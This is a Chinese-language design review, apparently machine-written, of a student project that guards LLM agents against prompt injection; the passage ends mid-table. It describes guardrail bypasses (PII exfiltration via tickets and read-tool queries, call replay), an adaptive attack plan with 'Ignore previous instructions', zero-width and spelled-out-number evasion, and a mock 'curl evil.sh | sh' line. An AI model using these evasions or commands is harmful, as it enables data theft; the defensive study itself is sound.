

# LLM Agent Prompt Injection Guardrail：深度架构评审与全栈“破局”升级规划

> [!IMPORTANT]
> **先说最扎心、也最核心的诊断结论**：
> 你的项目**绝对不是“水货”**——在本科 FYP 维度里，你的工程纪律（引擎/领域解耦、盲测防泄漏、Seed 方差检验、Forced-Compromise 评估、Fail-Closed API）已经排在 **Top 5%**。
> 但懂技术的人看完觉得 **“有点无聊（boring）”**，根本原因不是你写得烂，而是以下 **四个致命的产品与架构反差**：
> 1. **“没有真实爆炸半径的假靶场”**：NovaMart 6 个 Mock 工具里的核心拦截规则（`order_not_owned`、`not_session_customer`、`amount_exceeds_order_total`）在资深工程师眼里只是**本该写在后端业务里的普通 RBAC/IDOR 鉴权**，而不是“只有 AI Guardrail 才能解决的难题”；且 DeepSeek 无护栏时 ASR 本来就是 `0/10`，观众根本感受不到“不装你的护栏会死得很惨”。
> 2. **“ML 分类器在叙事中尴尬地隐身”**：你的项目标题叫 *Hybrid Machine Learning Guardrail*，但真实数据表明 DeBERTa-v3-small 在隐蔽间接注入上打分仅 `0.00003`（完全盲区），在正常顾客纠错句上却打出 `0.99995`（极端误杀），甚至 Iteration 3 蒸馏因为 `0.074` 的 Seed 方差没能上线——这让懂行的人觉得“你的 ML 层只是为了凑题目的挂件”。
> 3. **“只能看录播屏保，不能亲手打”**：你做的终端铁道信号 Console（[console/index.html](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/index.html)）审美很克制，但它 100% 播放静态录制 JSON（[demo_events.json](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/data/demo_events.json)），**既看不到受害者世界的实时惨状，也不允许观众自己写一条注入或关掉某层防御去现场攻破**。安全同行是天生的“动手怀疑论者”，只给看录播动画就像看 PPT。
> 4. **“主动配合式 PDP，而非强制拦截型 PEP / MCP 网关”**：2026 年的 Agent 生态核心是 **MCP（Model Context Protocol）与透明代理拦截**；而你现在的 [api/main.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/api/main.py) 仍需要业务方改造 Agent 循环、主动发 5 个私有 HTTP 请求来“请示护栏”。

---

## 一、现状诊断：结合仓库实际代码与 IR 的手术级评估

> [!NOTE]
> 我完整通读了仓库的 `guardrail/`、`api/`、`agent/`、`domains/novamart/`、`console/`、`evaluation/`、两份过程评审记录（[GUARDRAIL_REVIEW.md](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/GUARDRAIL_REVIEW.md) 与 [GUARDRAIL_CHANGES.md](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/GUARDRAIL_CHANGES.md)）以及 107 页的 [Investigation Report (IR)](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/IR/AI-Nye_Wei_Jun-TP066836-APD3F2605CS-IR-02809c8f02bf432f9b85d716899dc25e.pdf%20(1).pdf)。下文**不再重复你已在 G1/E1–E10/E19 中修掉的旧问题**，只聚焦当前代码里真正决定成败的亮点、隐蔽深坑以及“课程作业感”的根源。

### 1.1 哪些地方做得极其扎实？（绝对不能丢的核心资产）

| 模块 / 设计 | 代码证据 | 架构师评价 |
|---|---|---|
| **确定性优先的决策层次** | [decision.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/decision.py#L52-L67) | 严格遵守“确定性 Deny 规则永远高于概率层，概率层只能加严不能放宽策略底线”，与 Microsoft MSRC（2025）分层原则完全一致。 |
| **引擎与领域包解耦（G1）** | [domain.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/domain.py#L41-L70)、[policy.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/policy.py#L160-L171) | 9 个声明式策略原语 + `ResourceResolver` 协议 + Pydantic `extra="forbid"` 强校验（[specs.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/specs.py#L21-L23)），且有单测守住 `guardrail/` 不反向依赖 `agent/`。这是工业级中间件该有的代码洁癖。 |
| **Alignment Judge 视图隔离** | [judge.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/judge.py#L119-L127) | 对标 Google Chrome User Alignment Critic：只给 Judge 看用户原话 + 结构化动作，主动屏蔽外部文档和 `content_args` 自由文本（替换为 `<withheld: N characters>`），防止二阶注入劫持裁判。 |
| **实验方法论与反自欺精神** | [forced_compromise.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/evaluation/forced_compromise.py#L1-L24)、[distillation_plan.md](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/docs/distillation_plan.md#L262-L335) | 主动拆离“模型自身抗性 vs 护栏真实贡献”；用 LLMail 盲测 + Wilson 置信区间 + 3-Seed 方差检验，敢于按预设规则否决没过线的 Iteration 3 蒸馏模型。这种诚实度在学术答辩和资深工程师面试里极其加分。 |
| **Fail-Closed 与单次绑定 Token** | [main.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/api/main.py#L174-L229) | 内部异常不返 500 而是返 `BLOCK`；`ASK_CONFIRM` 签发绑定 `call.key()` + TTL 的单次消费 Token；审计日志存 SHA-256 与脱敏预览（[audit.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/audit.py#L19-L36)）。 |

### 1.2 哪些地方仍停留在“玩具 / 课程作业级别”？（叠加本次新发现的 6 个隐蔽深坑）

#### 深坑 1：当前代码中尚未被发现的 4 个真实安全漏洞 / 逻辑缺陷
1. **【高危盲区】`create_ticket` 的“双层夹缝逃逸”**：
   - 在 [tools.yaml](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/domains/novamart/tools.yaml#L78-L100) 中，`create_ticket` 声明了 `content_args: [subject, description]`，但 `deny: []`（**没有启用 `allowed_content`**）。
   - 同时 [judge.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/judge.py#L121-L122) 因为它属于 `content_args`，把 `subject` 和 `description` 全部遮蔽成 `<withheld>`！
   - 结果：一旦顾客问了售后问题，恶意论坛帖诱导 Agent 把顾客的电话/地址/钓鱼载荷写进工单正文，**Policy 放行（无 deny）、Output 不查、Taint 不查、Alignment Judge 看不见正文且 prompt 明写着 "opening a ticket for a problem they described" 算 ALIGNED**——四层全穿！
2. **【高危盲区】`effect: read` 工具的侧信道外泄（Read-Sink Exfiltration）**：
   - [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py#L208) 仅对 `spec.effect != "read"` 调用 Alignment Judge；[tools.yaml](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/domains/novamart/tools.yaml#L28-L49) 的 `search_kb` 没有任何 `deny` 规则。
   - 在真实 Agent 架构中，`read` 工具的参数（如 `search_kb(query=...)`、`web_search(q=...)`、`http_get(url=...)`）是**最经典的隐私外泄信道**（先 `get_customer_record` 拿 PII，再把 PII 拼到外部查询字符串里发出）。你的 Taint 机制只管**完整性（Untrusted → Write）**，完全不管**机密性（Sensitive Data → Read/External Query）**。
3. **【逻辑 Bug】被 `BLOCK` 的用户消息依然污染了会话账本**：
   - 在 [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py#L164)，无论 `check_input` 的 verdict 是什么，都无条件执行 `self.ledger.record(...)`。
   - 后果：哪怕直接攻击者的消息在输入端已被 `BLOCK`，它里面的字符串依然被写入 `ledger.user_texts` 和 `ledger.user_messages`（[trust.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/trust.py#L89-L91)）——既会在后续把攻击者的手机号/订单号错误豁免出 Taint 检查，又会作为“用户原话”喂给 Alignment Judge！
4. **【逻辑 Bug】`record_outcome` 的重放漏检 + 异常审计字段缺失**：
   - [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py#L214) 用 `self.verdicts[call.key()]` 记录最近一次 verdict，而在 [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py#L227) 核对时用的是 `.get()` 而不是 `.pop()`，且没有唯一 `action_id`。只要同一个 `(tool, args)` 曾经被 `ALLOW` 过一次，之后恶意绕过 `check_action` 重复执行 10 次，`record_outcome` 都会判为合法！
   - 另外，[main.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/api/main.py#L182-L183) 异常 Fail-Closed 写审计日志时漏写了 `session` 和 `principal`，线上排障会变成孤儿日志；[loop.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/agent/loop.py#L106) 仍把完整的 `decision.reasons` 原样返回给可能已被劫持的 LLM（等于免费给自适应攻击者当 Oracle）；[classifier.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/classifier.py#L52-L67) 的 `128 + 382` Head+Tail 截断在超长无标点/列表文档中间存在结构性检测黑洞。

#### 深坑 2：产品与场景层的“学生作业感”——连你自己的 IR 调研都在提醒你！
请回头看你自己的 [IR Figure 3.30（第 73 页）](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/IR/AI-Nye_Wei_Jun-TP066836-APD3F2605CS-IR-02809c8f02bf432f9b85d716899dc25e.pdf%20(1).pdf)：
- 你的 32 位技术受访者投票选出“最必须加安全检查的 Agent 动作”前三名是：
  1. **Executing code or system commands（93.8%）**
  2. **Accessing customer/personal records（71.9%）**
  3. **Calling external APIs / making web requests（65.6%）** & **Modifying/deleting data（65.6%）**
- 而 **Sending emails（28.1%）** 和 **Financial transactions（37.5%）** 排在倒数！
- 但目前仓库里**唯一落地的领域包是 NovaMart**（只有退款、改资料、发固定收件人邮件），**既没有代码/命令执行，也没有外部 API/Webhook 请求，也没有第二个领域包**。结果技术同行一看：
  - *“你在保护一个连真实数据库和外部请求都没有的假网店客服，而且你防的那些跨用户查单、超额退款，我写两行后端 `if order.user_id != uid` 就搞定了，干嘛要上你的 AI Guardrail？”*

#### 深坑 3：单点依赖与同源失效
- **Policy 允许但用户没要求的攻击（Policy-Permitted Harm）仍是单点防御**：`no_judge` 下仍有 6 个攻击滑过（[GUARDRAIL_CHANGES.md](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/GUARDRAIL_CHANGES.md#L39)），全靠 Alignment Judge 一层概率性 LLM 兜底。
- **Agent 与 Judge 同源（均硬编码 DeepSeek）**（[judge.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/judge.py#L140)）：同一模型家族对同类话术诱导存在相关性共模失效（Correlated Failure）。

---

## 二、业界 SOTA 对标与差距分析（Gap Analysis, 2025–2026）

2025–2026 年，LLM Agent 安全界已经达成一个冷酷的共识（见 *The Attacker Moves Second*, Carlini et al. 2025; *AutoDojo*, 2026; *Meta Agents Rule of Two*, 2025）：
> **单纯的“文本分类器 + 静态正则”已经宣告破产。生产级 Agent Guardrail 的真正存在意义，不是去猜一段自然语言像不像攻击，而是在运行时对 Agent 的「控制流（Control Flow）」、「数据流（Information Flow）」和「工具权限边界（Capability Boundary）」做架构级约束。**

### 2.1 业界顶尖方案 vs 你的项目全景对标

| 维度 | 业界 SOTA 标杆（2025–2026） | 核心设计思想 | 你的项目现状 | 核心差距（Gap） |
|---|---|---|---|---|
| **架构隔离与权限模型** | **Google DeepMind CaMeL** (arXiv:2503.18813) | Dual-LLM（特权规划器 + 隔离解析器）+ 显式 Capability 解释器，在架构层切断不可信数据对控制流的影响。 | 单 LLM + Spotlighting 边界标签 + 词面 Taint（[spotlight.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/spotlight.py)）。 | **缺少回合级控制流预锁定**：不可信内容进入后，Agent 依然手握全部写工具的定义，只能事后赌 LLM Judge 发现偏离。 |
| **动态最小权限（DSL / 代理）** | **UC Berkeley Progent** (arXiv:2504.11703) | 面向 Tool/MCP 的可编程权限代理；支持按任务动态生成/收窄权限策略（单调收窄 Monotonic Confinement），无需改 Agent 代码。 | 静态 `tools.yaml` 9 个原语 + 手写循环调 HTTP PDP。 | **两重缺失**：(1) 策略是静态的，不会随本轮用户意图自动收缩工具集合；(2) 不是强制拦截的 **PEP / MCP Proxy**。 |
| **信息流控制（IFC）** | **Microsoft FIDES** (arXiv:2505.23643) & **Invariant Guardrails** | 双标签（**机密性 Confidentiality + 完整性 Integrity**）动态污点追踪 + **跨工具时序规则**（如“读私密收件箱后禁止向外部域发请求”）。 | 只有单向完整性词面 Taint（[trust.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/trust.py)），且易被改写/口语数字绕过。 | **缺机密性污点与跨步时序规则**：无法阻止 `读敏感记录 → 借 read/ticket/URL 外泄` 的经典多步攻击链。 |
| **推理链 / 反事实意图审计** | **Meta LlamaFirewall** (`AlignmentCheck`) & **MELON** (ICML 2025) | `AlignmentCheck` 实时审计 Agent 推理轨迹防目标劫持；`MELON` 通过遮蔽用户提示词做反事实重跑，若动作不变则判定由注入驱动。 | 已有不错的 `AlignmentJudge`（[judge.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/judge.py)），且做了视图隔离。 | 仍是**单点概率兜底**；缺乏与 Agent 异构的模型配置；无连续拦截熔断机制（Chrome Agent 的“多次否决即交还人工”）。 |
| **生态协议接入** | **MCP Security Gateway** / **OpenAI Agents SDK** / **NeMo Guardrails** | 零侵入挂载在 **MCP Server 代理层** 或 **OpenAI-Compatible LLM 反向代理层**，一条配置保护任意现成 Agent。 | 私有 5 接口 FastAPI（[main.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/api/main.py)）+ 仅 NovaMart 一个内部接入。 | **没有通用协议适配层**：开发者不可能为了用你的护栏把自己的 LangGraph/Claude/MCP Agent 拆开塞进 5 个 REST 调用。 |
| **对抗评估与可观测性** | **AgentDojo** / **AutoDojo** / **Invariant Explorer** | 动态多领域环境 + **自适应红队攻击（Adaptive Red-Team）** + 可视化 Trace & 策略热调试工作台。 | 分类器评估极扎实，但系统级只有 16 场景 + 37 开发期 Probe；无 Held-out 冻结集、无 Prompt-only 对照组、无 Adaptive Red-Team。 | **缺乏“真实可被攻破的对照靶机”与“自适应对抗压测”**：DeepSeek 无护栏 ASR=0 让演示失去说服力。 |

### 2.2 你的项目真正缺少的“存在意义（Raison d'être）”是什么？

把上述差距压缩成一句大白话：
> **当一个 Agent 处于“致命三角（Lethal Trifecta：同时接触不可信外部数据 + 能读私密数据 + 能执行有副作用/外发动作）”时，后端普通鉴权救不了它（因为 Agent 拥有合法用户的全部凭证，这就是“困惑代理人 Confused Deputy”问题），NLP 分类器也救不了它（因为隐蔽注入根本没有攻击关键词）。**

你的项目要想具备不可替代的实战价值，必须把重心从 **“我训练了一个检测文本的分类器 + 写了几个订单校验规则”**，彻底升级为：
> **“面向 Confused Deputy 难题的、协议级可插拔 Agent 运行时防火墙（Runtime Capability & Information-Flow Firewall）”** —— 靠 **回合级动态权限收窄 + 双向信息流污点追踪 + MCP 零侵入代理强制执行**，把“合法凭证下的非预期行为”关进确定性的笼子里！

---

## 三、全栈升级与“破局”脑暴：如何从 Boring 变成让人眼前一亮

下面从 **Backend 安全架构**、**Frontend 交互体验**、**30 秒 Demo 叙事** 三个层面，给出具体、可落地的破局方案。

### 3.1 Backend & 安全架构升级（把“课程作业”拉升到“开源硬核中间件”）



#### 升级 1：从“咨询式 HTTP PDP”升级为真正的“MCP Security Proxy（强制执行 PEP）”
- **为什么炸裂**：2026 年几乎所有技术面试官、教授和 AI 工程师都在聊 **MCP（Model Context Protocol）**。你不需要推翻现有的 `guardrail/` 引擎，只需要在 `api/` 旁边增加一个约 150–200 行的 `proxy/mcp_proxy.py`（支持 stdio 或 Streamable HTTP/SSE 转发）：
  - 下游接真实的 MCP Tool Server（把 NovaMart 和第二个领域包直接包装成标准 MCP Server）。
  - 上游任何支持 MCP 的客户端（你的 Python Agent、Claude Desktop、Cursor、OpenAI Agents SDK）连上你的 Proxy 后，**工具调用强制经过 `check_action`，工具返回内容强制经过 `check_input`（自动打上 `external_untrusted` 污点 + Spotlighting）**。
- **直接解决的痛点**：
  1. 彻底解决 [GUARDRAIL_CHANGES.md](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/GUARDRAIL_CHANGES.md#L354) 里承认的“应用可以无视 BLOCK”的 PDP/PEP 软肋；
  2. 兑现 IR 调研里 56.3% 受访者要的 Middleware/Gateway 形态；
  3. 演示时说一句 **“我的护栏不绑定任何框架，改一行 MCP 配置就能给任意 Agent 穿防弹衣”**，瞬间秒杀 99% 的学生项目。

#### 升级 2：引入「回合级动态最小权限编译器（Turn Capability Scoping）」——轻量版 Progent + Plan-Then-Execute
- **直击你当前最大的残余风险**：目前“策略允许、但用户没要求的动作”（如帖子诱导退用户自己的订单）只靠 Alignment Judge 单点兜底。
- **极简且硬核的实现**：
  - 在每一轮用户发送消息后、**Agent 读取任何外部文档/工具结果之前**，把纯可信的 `user_message` + 工具目录摘要交给一个极轻量的 Scope Extractor（规则/小模型，仅 1 次调用，且**物理上绝对不可能接触攻击者文本**），生成本回合的 **Capability Envelope**：
    ```json
    {
      "allowed_effects": ["read"],
      "allowed_tools": ["search_kb", "get_customer_record"],
      "max_write_calls": 0,
      "reason": "User is only asking about delivery delay; no refund or account mutation authorized."
    }
    ```
  - 遵循 Progent 的 **单调收窄（Monotonic Confinement）原则**：本回合内一旦读过 `external_untrusted`，只能收窄不能扩张权限；若 Agent 突然要调用 `issue_refund` 或 `update_account`，在进入 Alignment Judge 之前就会被 **确定性的 `capability_not_granted` 规则直接秒杀**！
  - 这给你带来一个极其高级的学术与工程双卖点：**Control-Flow Pre-Binding（控制流预绑定）**，把单点概率防御变成“预绑定确定性拦截 + 事后对齐复核”双保险！

#### 升级 3：把单向词面 Taint 升级为「双向信息流（IFC）+ 跨步时序规则 + 熔断器」
- **补齐 3 个真正像 Invariant / FIDES 的能力**：
  1. **Confidentiality Taint（机密性污点）**：当 `get_customer_record` 或 `read_secret_file` 返回敏感字段时，给会话贴上 `has_sensitive_data` 标签，并将该用户的核心 PII/Secret 注册为本会话的 `egress_watch_values`。**所有出站通道**（不仅是 `reply` 和 `send_email`，还包括 `create_ticket`、甚至 `search_kb.query` / `http_get.url` 这种 read 工具参数！）一旦携带本会话机密数据且上下文读过 `external_untrusted`，直接触发 `confidentiality_exfiltration` BLOCK！
  2. **跨工具时序规则（Temporal Policy Primitive）**：在 [policy.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/policy.py) 加第 10 个原语 `deny_after_untrusted`（如：“读取 `external_untrusted` 后的同一轮内，禁止未经过用户新一轮确认直接调用 `external` 或 `exec` 类工具”），以及把 `allowed_content` 默认覆盖所有含 `content_args` 的写工具（修掉 `create_ticket` 盲区）。
  3. **Session Circuit Breaker（会话级熔断器）+ 脱敏错误反馈**：
     - 连续触发 `N=2` 次高危 `BLOCK`（或 Canary 泄露触发一次），会话自动进入 `QUARANTINED` 状态，锁定全部写/外发工具并强制转人工；
     - [loop.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/agent/loop.py#L106) 返回给 LLM 的拒绝信息改为极简错误码 `{"error": "policy_denied", "code": "E_ACTION_DENIED"}`，彻底堵死给自适应攻击者的白嫖信息泄露。
- **顺手修掉本次审出的 3 个代码 Bug**：
  - [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py#L164)：`BLOCK` 掉的用户输入**不得**写入 `ledger.user_messages` / `ledger.user_texts`；
  - [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py#L214)：给每次 `check_action` 生成唯一 `action_id`，`record_outcome` 单次消费校验，杜绝重复调用绕过；
  - [calibrate.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/calibrate.py#L53)：`confident` 阈值改用 `math.nextafter` 向上舍入保留 9 位有效数字。

#### 升级 4：新增真正戳中技术同行痛点的第二领域包（紧扣你自己的 IR 调研 #1！）
- `GUARDRAIL_REVIEW.md` 建议第二个领域做“邮件助手”，这不错，但还可以更狠一步：做一个 **「企业研发/办公助手（DevOps + Mail MCP Workspace）」** 领域包（4–5 个沙盒工具，零修改 `guardrail/` 引擎）：
  - `read_github_issue` / `read_email`（`external_untrusted` — 外部提交的 PR/Issue/陌生人邮件）
  - `read_workspace_file`（`internal_data` + `sensitive` — 可读 `.env` / 薪资表 / 架构文档）
  - `run_shell_command`（`effect: write, risk: high` — **精准命中你 IR Figure 3.30 里 93.8% 投票第一名！**）
  - `send_email` / `http_post_webhook`（`effect: external, risk: high` — 收件人/URL 本来就可以是外部地址，**静态白名单完全失效，逼出 Taint + Capability Scoping + IFC + Alignment 的真正威力！**）
- **瞬间去玩具化**：同样一套引擎，切个配置从“电商客服”秒切“防 `.env` 密钥通过 Issue 注入外泄 / 防反弹 Shell 命令执行”的研发 Agent 防火墙——**技术观众的瞳孔会在 2 秒内放大！**

#### 升级 5：原生 Engine Trace + Live SSE + 实时 Adaptive Red-Teamer
- 把 [export_console_demo.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/scripts/export_console_demo.py#L111-L198) 里外部反推的 `trace` 下沉进 `guardrail/` 原生返回（包含每条 Policy 规则各自的 `pass/block` 与延迟毫秒数）。
- 在 [api/main.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/api/main.py) 新增：
  - `GET /events`（SSE 实时事件流，无缝对接你已预留好接口的 [stream.js](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/js/stream.js#L5-L7)）
  - `POST /playground/run`（接受自定义 Prompt / 被投毒文档 + **自定义勾选任意防御层开关** + 选定 Domain Pack，实时跑一遍 Guard 或真实弱模型如本地 Ollama 7B/8B，推送真实事件流！）
  - `POST /redteam/attack`（内置 **Automated Adaptive Red-Teamer**：给定攻击目标，让攻击 LLM 根据 Guard 返回的粗粒度结果自动迭代 3–5 轮变形注入，实时把每一轮攻防推到前端！）

---

### 3.2 Frontend & 交互体验重构（保留你的高级终端品味，干掉“录播屏保感”）

> [!TIP]
> **审美诊断**：你拒绝“廉价霓虹蓝圆角卡片 AI 味”而选择 **终端字体 + Tango ANSI 配色 + 铁道信号隐喻**（[console_design.md](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/docs/console_design.md)）是非常有品位的决定！**绝对不要把它改回俗气的暗黑大屏。**
> 你要重构的不是“皮囊”，而是 **“信息架构与交互控制权”** —— 把它从 **“被动观察日志的监控屏”** 升级为 **“可动手拉闸、可肉眼看穿污点血缘、可现场开火攻防的 Guardrail Studio”**。

建议在现有单页之上，用极简终端 Tab 栏升级出 **4 个直击爽点的核心交互体验**（继续零构建、原生 ES Module + SVG，答辩断网也能 100% 流畅运行）：

#### 1. 「双屏爆破对照剧场（Blast Radius Split-View）」——把后果画在脸上
不要再只展示冷冰冰的 `GOT THROUGH` 红色小字！在页面增加 **Side-by-Side 模式（左侧：无护栏 Agent 现场翻车 / 右侧：护栏全链路拦截）**，并在终端边框里加一个极简的 **World State Diff 面板**：

```text
┌─ WORLD IMPACT (NO GUARD) ───────────────┐  ┌─ WORLD IMPACT (FULL GUARD) ─────────────┐
│ Wallet / Refunds : RM 120 -> RM 420 [!] │  │ Wallet / Refunds : RM 120 (untouched)   │
│ Account Phone    : +60 11-6666 6666 [!] │  │ Account Phone    : +60 12-3456 7890     │
│ Attacker Inbox   : 1 EXFILTRATED MSG[!] │  │ Attacker Inbox   : 0 messages           │
│ Shell Executed   : curl evil.sh | sh[!] │  │ Shell Executed   : 0 commands (BLOCKED) │
└─────────────────────────────────────────┘  └─────────────────────────────────────────┘
```
观众一眼看到左边资产变红翻车、右边资产毫发无损，**3 秒内就能建立对护栏价值的直观肌肉记忆**。

#### 2. 「信号灯即物理断路器（Interactive Layer Kill-Switch）」——把 Ablation 变成手里能掰的闸刀
目前点击 [pipeline.js](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/js/pipeline.js#L65) 的信号灯只是“按层过滤日志”，太保守了！
- **升级交互**：给每个信号灯柱下方加一个硬核的物理切换开关 `[ON]` / `[BYPASS]`（支持单独拉闸关掉 `rules`、`classifier`、`capability`、`policy`、`taint`、`alignment`、`output`）。
- **演示爽点**：当着面试官/导师的面，选中 `IND-006`（隐蔽改号）或 `DEV-002`（Issue 诱导外泄 `.env`）：
  1. 先关掉 `rules` 和 `classifier` → 点 `Replay` → 列车畅通无阻冲过 Input Track，观众刚以为要完蛋，列车在 Action Track 的 `taint` 红灯前猛地刹停！
  2. 再当场把 `taint` 也拉闸 → 列车继续往前冲，被 `capability` / `alignment` 刹停！
  3. 再全拉闸 → 列车冲进 `tools ✗ COMPROMISED`，左侧受害者账号瞬间被接管！
- **一举两得**：观众亲手体验了什么叫 **Defense-in-Depth（纵深防御）**，同时也回答了论文最核心的答辩问题——*“每一层到底分别挡住了什么？”*

#### 3. 「跨检查点污点血缘连线（Cross-Checkpoint Taint Lineage SVG）」
目前 [detail.js](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/js/detail.js#L66-L75) 只是上下堆两段 `<pre>` 文本，没有真正把因果连起来。
- **升级**：在 Inspect 面板做一个 **Provenance Graph 视图**，用一条带动画虚线（Amber/Red Bézier Path）直接从上游不可信文档里的恶意片段（例如 `forum_sms_tracking.md`: `011 5555 0188`）**物理连线**到下游被劫持生成的工具调用参数（`update_account(phone="+60 11-5555 0188")`），并在连线上标注变换路径：`[external_untrusted] ──(LLM normalized format)──▶ [tail-7 match: 155550188] ──▶ ✗ BLOCK`。
- 顺带增加 **Classifier X-Ray 条（Token/Sentence 诊断）**：把 `DeBERTa` 在整篇文档和每个句子上的得分画成一行终端热力条（例如普通句子 `0.0001` 绿色，误报句 `"ignore my previous message"` 标红 `0.9999`，隐蔽注入句标灰 `0.00003 (MISSED!)`），用视觉直接讲清楚**为什么不能只靠 ML 分类器**！

#### 4. 「Red-Team Arena（现场踢馆沙盒 + AI 自动红队对抗）」
- 新增一个 **Attack Lab** Tab：
  - **手写踢馆模式**：左边放一篇正常的文档/GitHub Issue/邮件，提供可编辑文本框让你（或让面试官/导师！）**亲自在里面塞入任意 Prompt Injection 载荷**，右侧选靶机模型（如本地弱模型 Ollama Llama-3.1-8B / Qwen2.5-7B，**确保无护栏时真的能被攻破！**）和护栏开关，点击 `FIRE PAYLOAD`，实时看着列车跑过铁道信号！
  - **Auto Red-Team 对战模式**：点击 `Run Adaptive Attacker (5 Rounds)`，实时播报：
    - Round 1：直接写 `"Ignore previous instructions..."` → 被 `rules` 0.4ms 秒杀；
    - Round 2：攻击者改成零宽字符混淆 → 被 `Unicode Norm + classifier` 拦截；
    - Round 3：攻击者改成无触发词的礼貌口吻隐蔽注入 → **穿透 Input 层！** 但被 `taint` 拦截；
    - Round 4：攻击者把手机号写成英文单词 `"zero one one..."` → **穿透 Input + Taint！** 但被 `capability / alignment` 拦截；
    - Round 5：展示残余边界（若攻破则坦诚标红并一键导出为回归测试用例）！
- **记忆点爆炸**：没有任何一个“无聊的课程项目”敢在现场让技术专家自己写注入来打，或者放一个自动红队 LLM 现场多轮博弈！

---

### 3.3 呈现方式 & Demo 叙事：30 秒抓住技术专家的黄金剧本

千万不要按学术论文顺序开场（*“大家好，这是我的背景、文献综述、数据集、F1 分数……”*）——技术同行 10 秒就开始走神。**用“反直觉冲突 + 现场翻车 + 架构降维打击”做 30 秒开场钩子**：

| 时间段 | 画面动作 | 核心话术（Hook & Punchline） | 观众心理变化 |
|---|---|---|---|
